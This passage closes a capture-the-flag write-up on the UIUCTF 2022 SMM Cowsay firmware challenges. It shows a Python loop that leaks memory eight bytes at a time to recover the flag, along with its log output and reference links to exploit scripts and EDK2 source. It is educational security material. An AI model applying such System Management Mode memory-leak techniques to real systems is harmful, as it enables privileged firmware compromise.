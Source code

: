 ```python  
flag = ''  
for off in range(0, 0x100, 8):  
   chunk = expl(0x44440000 + off)  
   flag += chunk.decode()  
   log.success(flag)

   if '}' in flag:  
       break  
```

```  
[*] Leaking 8 bytes at 0x44440000...  
[+] uiuctf{d  
[*] Leaking 8 bytes at 0x44440008...  
[+] uiuctf{dont_try_  
...  
[*] Leaking 8 bytes at 0x44440030...  
[+] uiuctf{dont_try_this_at_home_I_mean_at_work_5dfbf3eb}  
```

[smm1]: #smm-cowsay-1  
[smm2]: #smm-cowsay-2  
[smm3]: #smm-cowsay-3  
[expl1]:
https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-
cowsay/expl_smm_cowasy_1.py  
[expl2]:
https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-
cowsay/expl_smm_cowasy_2.py  
[expl3]:
https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-
cowsay/expl_smm_cowasy_3.py

[tweet]:
https://twitter.com/MeBeiM/status/1554849894237609985  
[uiuctf]:                              https://ctftime.org/event/1600/  
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges  
[author]:                              https://github.com/zhuyifei1999  
[wiki-smm]:
https://en.wikipedia.org/wiki/System_Management_Mode  
[intel-sdm]:
https://www.intel.com/content/www/us/en/developer/articles/technical/intel-
sdm.html  
[uefi-spec]:                           https://uefi.org/specifications  
[uefi-spec-pdf]:
https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf  
[man-cowsay]:                          https://manned.org/cowsay.1  
[man-pahole]:                          https://manned.org/pahole.1  
[x64-call]:                            https://docs.microsoft.com/en-
us/cpp/build/x64-calling-convention?view=msvc-170  
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm  
[x86-rdrand]:
https://www.felixcloutier.com/x86/rdrand  
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools  
[gh-ropgadget]:
https://github.com/JonathanSalwan/ROPgadget  
[gh-edk2]:                             https://github.com/tianocore/edk2  
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx  
[gh-qemu]:                             https://github.com/qemu/qemu  
[qemu-memtxattrs]:
https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35  
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-
uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table  
[edk2-SmiHandlerRegister]:
https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213  
[edk2-EfiRuntimeServicesData]:
https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25  
[edk2-SmmCommunicationCommunicate]:
https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110  
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]:
https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267  
[edk2-copy-msg]:
https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547  
[edk2-smi-entry]:
https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89  